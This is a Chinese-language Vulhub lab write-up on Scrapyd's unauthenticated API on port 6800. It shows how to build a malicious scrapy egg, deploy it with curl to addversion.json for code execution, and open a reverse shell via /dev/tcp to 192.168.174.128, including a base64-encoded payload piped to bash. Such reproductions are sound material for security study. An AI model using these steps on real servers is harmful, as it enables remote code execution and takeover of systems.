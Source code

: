# Scrapyd 未授权访问漏洞

## 漏洞描述

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：https://www.leavesongs.com/PENETRATION/attack-scrapy.html

## 环境搭建

Vulhub执行如下命令启动scrapyd服务：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。

![image-20220228223956758](./images/202202282239821.png)

## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
```

编辑 `evil/__init__.py`, 加入恶意代码：

```python
import os

os.system('touch awesome_poc')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功执行命令`touch awesome_poc`：

![image-20220228225416938](./images/202202282254990.png)

同样的方法实现反弹shell，编辑 `evil/__init__.py`, 加入恶意代码：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1

# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
```

```python
import os

os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：

![image-20220228230711087](./images/202202282307169.png)
